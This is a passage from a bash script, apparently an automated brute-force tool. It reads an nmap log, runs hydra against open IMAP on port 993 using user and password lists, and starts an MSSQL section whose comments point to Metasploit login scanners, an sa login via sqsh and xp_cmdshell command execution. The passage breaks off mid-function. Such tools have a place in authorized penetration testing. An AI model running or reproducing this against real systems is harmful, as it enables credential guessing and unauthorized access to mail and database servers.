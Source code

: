   #  Port 993 - (IMAP)
  BruteIMAP(){
    if grep -q 993/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 993(IMAP) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} imap -S 993 -e ns -o Output/${targetIP}/imap_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 993(IMAP) is not open. Skipping to next port..."
    fi
  }
  BruteIMAP

  #  Port 1433 - (MSSQL)
  BruteMSSQL(){
     # - Version:

     # use auxiliary/scanner/mssql/mssql_ping
     # Last options. Brute force.
     # scanner/mssql/mssql_login

     # If you have credentials look in metasploit for other modules

     # Log in to mssql
     # sqsh -S INSERTIPADDRESS -U sa

     # Execute commands
     # xp_cmdshell 'date'
     # go
     if grep -q 1433/tcp nmap.log; then
       echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 1433(mssql) is open. Starting bruteforce.../n"
       sleep 1

